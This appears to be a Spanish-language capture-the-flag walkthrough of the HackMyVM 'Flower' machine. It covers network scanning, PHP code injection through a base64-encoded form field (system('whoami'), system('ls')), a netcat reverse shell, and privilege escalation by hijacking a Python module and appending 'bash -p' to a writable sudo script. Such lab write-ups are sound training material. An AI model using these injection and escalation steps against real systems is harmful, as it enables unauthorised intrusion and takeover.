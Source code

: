## Maquina Flower

Hacemos un escaneo de red para ver que ip estan conectadas a nuestra maquina, para ello vamos a utilizar lo siguientes comandos:

````bash
netdiscover -i eth0 y -r ip

**netdiscover:**

- `netdiscover -i eth0`: Este comando ejecuta el escaneo de red en la interfaz de red especificada (`eth0` en este caso). Utiliza ARP (Protocolo de Resolución de Direcciones) para descubrir y mostrar hosts activos en la red local.
- `netdiscover -r IP`: Este comando escanea una red específica especificada por la dirección IP y su máscara de subred (ejemplo: `192.168.1.0/24`). Descubre y muestra los hosts activos en esa red.

arp-scan -I eth0 --localnet

**arp-scan:**

- `arp-scan -I eth0 --localnet`: Este comando ejecuta un escaneo ARP en la interfaz de red especificada (`eth0`) para descubrir hosts en la red local. La opción `--localnet` indica que se escaneará la red local donde está conectada la interfaz especificada.
````

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20175014.png)

Ahora realzimos un ping para corroborar que tenemos conexion con la maquina y seguido lanzamos un nmap con los siguientes comandos:

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20175040.png)

````bash
nmap -p- --open -A -T "ip"

- `nmap`: Este es el comando principal de Nmap.
    
- `-p-`: Este parámetro indica a Nmap que escanee todos los puertos posibles en el rango de 1 a 65535. El guion ("-") es una abreviatura para todos los puertos.
    
- `--open`: Este parámetro le dice a Nmap que solo muestre los puertos que están abiertos.
    
- `-A`: Este parámetro habilita la detección de sistemas operativos, versiones de servicios y scripts de detección de versiones de servicios.
    
- `-T`: Este parámetro define el tiempo de escaneo y se refiere a la velocidad del escaneo. El valor "ip" en tu comando no es un valor válido para este parámetro. Se supone que aquí debes proporcionar uno de los valores predefinidos que establecen la velocidad del escaneo, como "paranoid", "sneaky", "polite", "aggressive", "insane", entre otros.
````

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20175617.png)

Solo tenemos el puerto 80 abierto, esto es un servidor web http, asi que vamos a ingresar al sitio.

Como vemos el sitio nos permite elejir flores y nos detalla cuantos petalos tiene cada flor.

Por motivo de que la pagina no nos brindo ningun tipo de directorios ocultos y demas, vamos a ingresar a burpsuite para ver como se esta menjando la pagina por dentro.

Lo que notamos es que cambiando por la cantidad de petalos de las flores por una palabra random esta nos detalla por el sitio unas letras e iconos

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20182139.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20182224.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20182338.png)

Hay que tener en cuenta que en el codigo fuente hay una especia de codificacion ejemplo: OCsxMw== asi que vamosa  decencodear para ver el contenido, en este caso esta en base64.
Y al aparecer esto nos da la suma de los petalos (2+3).

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20182250.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20183204.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20182403.png)

Bien ahora queda en realizar un busqueda sobre si podemos ingresar codigo malisioso para leer tanto archivos de sistema como tambien tener una revershell, para eso busque en chato gpt.

````bash
Sí, es posible ejecutar comandos en el sistema inyectando código PHP malicioso en una aplicación web si la aplicación no está correctamente protegida contra la inyección de código. Esto es especialmente cierto si la aplicación web ejecuta el código PHP del usuario sin una adecuada validación o filtrado.

Por ejemplo, si tienes un formulario web que toma una entrada de usuario y la ejecuta como código PHP en el servidor sin ningún tipo de filtrado, un atacante podría inyectar código malicioso de la siguiente manera:

Supongamos que hay un formulario que toma un nombre de usuario y lo utiliza para mostrar un mensaje de bienvenida en una página PHP:

`<?php // Recuperar el nombre de usuario proporcionado por el usuario $username = $_POST['username'];  
// Mostrar un mensaje de bienvenida usando el nombre de usuario echo "Bienvenido, $username!"; ?>`

Si el usuario envía el siguiente nombre de usuario a través del formulario:

`'; echo system('ls'); echo '` 

El código PHP resultante se verá así:

`<?php // Recuperar el nombre de usuario proporcionado por el usuario $username = ''; echo system('ls'); echo ' ';  // Mostrar un mensaje de bienvenida usando el nombre de usuario echo "Bienvenido, $username!"; ?>`

El resultado de esto sería que el comando `ls` (que muestra el contenido del directorio) se ejecutaría en el servidor y su salida se mostraría en la página web. Esto puede dar al atacante acceso a información confidencial o incluso permitir la ejecución de comandos maliciosos en el servidor.
````

Ahora como se ve que es posible inyectar codigo PHP vamos a utlizar el siguiente comando para ver si podemos leer algun archivo en el sistema, claro que hay que codificar el comando:

````bash
echo system('whoami')
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20185747.png)

Una vez encodeado lo mandamos collocamos en el apartado "petals", suplantando la el "nombre de las flores":
Ahora como resultado tenes al usuarios "www-data"

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20185655.png)

Lanzamos otro comando para estar seguro:

````bash
echo system('ls')
````

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190053.png)

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190027.png)

Listo, ahora vamos a realizar un revershell encodeando el comando y a su vez nos ponemos en escucha en otra terminal con netcat:

A la revershell hay que colocarla dentro del "echo system ("revershell")" para que funcione

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190551.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190645.png)
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190630.png)

Seguido una vez que obtuvimos la revershell y somos el usuarios www-data nos queda escalar priveligios.

Hacemos el tratamiento de la tty para tener un shell estable, en este caso lo hacemos con pythom ya que esta instalado.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20190726.png)

````bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=screen
````

Bien ahora vemos que tenemos un usuariop llamado rose

Dentro de este tiene una carpeta con nombre diary.

En esta carpeta contiene un archivo python llamado diary.py, que este archivo ejecunta un script llamado pickle.py:

````bash
que haces esto :
import pickle diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"} p = open('diary.pickle','wb') pickle.dump(diary,p)

El código que proporcionas realiza las siguientes acciones:

1. Importa el módulo `pickle`. `pickle` es un módulo de serialización en Python que permite convertir objetos Python en una secuencia de bytes y viceversa, lo que facilita su almacenamiento en archivos o su transmisión a través de la red.
    
2. Crea un diccionario llamado `diary`, que contiene algunas entradas de diario, donde las claves son fechas (en formato de cadena) y los valores son las entradas del diario (también en formato de cadena).
    
3. Abre un archivo llamado `'diary.pickle'` en modo de escritura binaria (`'wb'`). Este archivo se utilizará para almacenar el diccionario serializado usando el módulo `pickle`.
    
4. Utiliza `pickle.dump()` para serializar el diccionario `diary` y escribirlo en el archivo `'diary.pickle'`. La función `pickle.dump()` toma dos argumentos: el objeto que se va a serializar y el archivo (o un objeto de archivo) donde se escribirán los datos serializados.
5. 
6. Entonces, en resumen, este código crea un archivo llamado `'diary.pickle'` que contiene una versión serializada del diccionario `diary`. Este archivo `'diary.pickle'` puede luego ser leído y deserializado para recuperar el diccionario original utilizando la función `pickle.load()`.
````

Entonces creamos un script llamado pickle.py con el siguiente comando:

````bash
import os
os.system('/bin/bash')
````
![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20192428.png)

Seguido ejecutamos lo siguiente

sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py

Logrando ser el usuario rose, ahora nos queda llegar a tener el maximo privilegios. Para ello hacemos un "sudo -l" para ver si hay binarios sudo.

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-28%20190634.png)

El archivo .plantbook es un script de bash ejecutable con el siguiente contenido.

Comprobando los permisos de rose sobre ese archivo se observa que tiene permisos de escritura, por lo que para la escalada a root simplemente se modifica el archivo incluyendo al final la ejecución de una bash privilegiada.

Cambiamos el contenido de .plantbook con el siguiente comando:

````bash
echo bash -p >> .plantbook
sudo -u root /bin/bash /home/rose/.plantbook
````

![](https://github.com/Qu0kk4/Quokk4/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-26%20193130.png)
